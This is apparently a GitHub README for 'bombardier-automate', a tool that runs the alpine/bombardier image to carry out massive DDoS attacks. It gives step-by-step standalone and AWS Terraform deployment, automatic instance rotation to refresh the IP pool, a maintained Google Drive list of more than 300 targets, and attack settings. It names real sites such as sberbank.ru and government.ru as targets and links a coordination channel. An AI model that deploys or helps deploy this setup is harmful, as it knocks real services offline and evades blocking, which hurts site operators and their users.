 # bombardier-automate
Automation script for Docker image [alpine/bombardier](https://hub.docker.com/r/alpine/bombardier) for massive DDoS.

#### Features
- Cross-platform
- DDoS multiple targets simultaneously
- Centralized targets management with Google Docs
- Easy deployment to AWS with Terraform
- Automatic instances rotation for refreshing IP pool

#### Requirements
For standalone
- Python installed (`pip`)
- Docker installed

For AWS
- `aws-cli`
- `terraform`

## How to run the script standalone
If you just want to run the script locally on your laptop/PC you shold install Python (v2 and v3 both are supported) with `pip` and Docker.
Depending on your OS the exact insturctions may differ, so please use Google.
One that is done, download and extract ZIP acrhive or clone this repository  
```$ git clone https://github.com/ihor-chaban/bombardier-automate.git```

Install neccesary Python libs  
```$ pip install -r bombardier-automate/bombardier-automate/requirements.txt```

Now you just run the script as usual, depending on your OS (from CLI or GUI)  
```
$ ./bombardier-automate.py
or
$ python bombardier-automate.py
```

Now the script will retrieve the list of targers and start creating Docker containers. You're good to go, just leave it and watch!

## How to deploy the solution to AWS
Cloud deployment is preferable option, as it is MUCH more effective comparing to a single device with VPN.
If you familiar with cloud services, this will be pretty easy and can be done in 5 minutes.
Install `aws-cli` and `terraform`. Go to `your AWS account - Security credentials - Access keys and Create New Access Key`.
Configure your `aws-cli` with these newly-created credentials. Test the access using command  
```$ aws sts get-caller-identity```

One that is done, download and extract ZIP acrhive or clone this repository  
```$ git clone https://github.com/ihor-chaban/bombardier-automate.git```

Go to `terraform` folder and run  
```$ terraform init```

Then run  
```$ terraform apply```

And type `yes` when prompted for confirmation.
Watch the deployment process, everything will be set up automatically.
When the deployment is finished you may log it to some instance with newly-generated SSH key `id-rsa.pem` to inspect the result.
You’re good to go, just leave it and watch!

## Config
All the configuration is already set with optimal values, so you can just run the solution as-is. However, if you want to configure some parameters more granularly, below I will provide a short description for each.
#### The script configuration is located in `bombardier-automate/config.py`
**TARGETS** - Google Drive URL to retrieve DDoS targets from (default: `https://drive.google.com/file/d/1rmAAKd0zgNeQdd3u45xtlMQ3Bj_ad9FJ/view?usp=sharing`)  
**THREADS** - Number of threads to run in parallel. This will not affect the DDoS directly, it is just about the speed of checking targets liveness and creating Docker containers (default: `5`)  
**TIMEOUT** - How long to wait for the response from a target in seconds (default: `10`)  
**CONNECTIONS** - The number of concurrent connections per target (default: `100`)  
**DURATION** - How long the Docker container will attack the target in seconds. If the target is still alive, the container will be re-created again (default: `3600`)  
**PREFIX** - The prefix for Docker containers naming related to this script (default: `ddos_`)

#### Terraform configuration is located in `terraform/variables.tf`
**instance_type** - The type of EC2 instance to use (default: `t3a.micro`)  
**instance_count** - The number of instances to run simultaneously (default: `5`)  
**instance_lifetime** - How often the instances should be rotated (default: `30 minutes`)

## How to switch to your own targets list
The default URL hardcoded in this solution contains more than 300 targets and being updated regularly by me, so it is ready for use as-is. However, if you want to use your own list to focus on the specific targets,  below I will provide a short instruction.
- Create any `.txt` file with the list of targets one per line:  
```
https://www.sberbank.ru/
...
https://government.ru/
```

- Upload it to your Google Drive and make it publicly **readable**.
- Copy the link `https://drive.google.com/file/d/1rmAAKd0zgNeQdd3u45xtlMQ3Bj_ad9FJ/view?usp=sharing` and paste it in `bombardier-automate/config.py` in **TARGETS** variable.

**IMPORTANT!!!**  
In order to modify the file in place on your Google Drive, use **Open With - Text Editor** app, the default Google Documents will not modify the .txt file, but will rather make a copy of it!

## Termination
#### Standalone
To stop the DDoS and remove everything related just stop the script then remove all related Docker containers. On \*NIX systems this can be done with the following command  
```$ for container in $(docker ps -a --format "{{.Names}}" | grep "^ddos_"); do docker rm -f "$container"; done```

#### AWS
Go to `terraform` folder and run  
```$ terraform destroy```
Type `yes` when prompted for confirmation.
All the resources created by this solution will be permanently destoyed. You may deploy them again just like for the first time.


## Targets
The actual targets and coordination info can be found here https://t.me/itarmyofukraine2022
